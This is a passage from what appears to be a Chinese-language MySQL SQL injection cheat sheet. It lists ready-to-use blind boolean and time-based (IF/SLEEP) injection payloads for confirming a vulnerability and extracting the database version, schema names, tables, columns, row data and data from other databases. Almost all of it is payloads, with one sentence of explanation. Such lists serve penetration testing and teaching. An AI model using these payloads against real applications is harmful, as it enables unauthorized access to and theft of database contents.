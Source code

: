 ```sql
1 AND (ascii(substr((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),1,1))) > 95--
```
#### 检索表：
```sql
1 AND (ascii(substr((SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema="database1" LIMIT 0,1),1,1))) > 95--
```
#### 检索列：
```sql
1 AND (ascii(substr((SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_NAME="table1" LIMIT 0,1),1,1))) > 95--
```
#### 检索数据：
```sql
1 AND (ascii(substr((SELECT column1 FROM table1 LIMIT 0,1),1,1))) > 95--
```
#### 从其他数据库检索数据：
```sql
1 AND (ascii(substr((SELECT column1 FROM database2.table1 LIMIT 0,1),1,1))) > 95--
```
### 基于时间

如果返回相同的页面以获得正确或错误的响应，则[IF](http://dev.mysql.com/doc/refman/5.5/en/if.html)和[SLEEP](http://dev.mysql.com/doc/refman/5.1/en/miscellaneous-functions.html#function_sleep)函数可以创建时间延迟，并用于推导数据库信息。

#### 测试是否存在漏洞：
```sql
1 AND sleep(10)--
```
#### 检索版本：
```sql
1 AND IF((SELECT ascii(substr(version(),1,1))) > 53,sleep(10),NULL)--
```
使用LIKE检索版本：
```sql
1 AND IF((SELECT version()) LIKE "5%",sleep(10),NULL)--
```
#### 检索数据库：
```sql
1 AND IF(((ascii(substr((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```
#### 检索表：
```sql
1 AND IF(((ascii(substr((SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema="database1" LIMIT 0,1),1,1))))> 95,sleep(10),NULL)--
```
#### 检索列：
```sql
1 AND IF(((ascii(substr((SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_NAME="table1" LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```
#### 检索数据：
```sql
1 AND IF(((ascii(substr((SELECT column1 FROM table1 LIMIT 0,1),1,1)))) > 95,sleep(10),NULL)--
```
#### 从其他数据库检索数据：
```sql
1 AND IF(((ascii(substr((SELECT column1 FROM database1.table1 LIMIT 0,1),1,1)))) >95,sleep(10),NULL)--
```
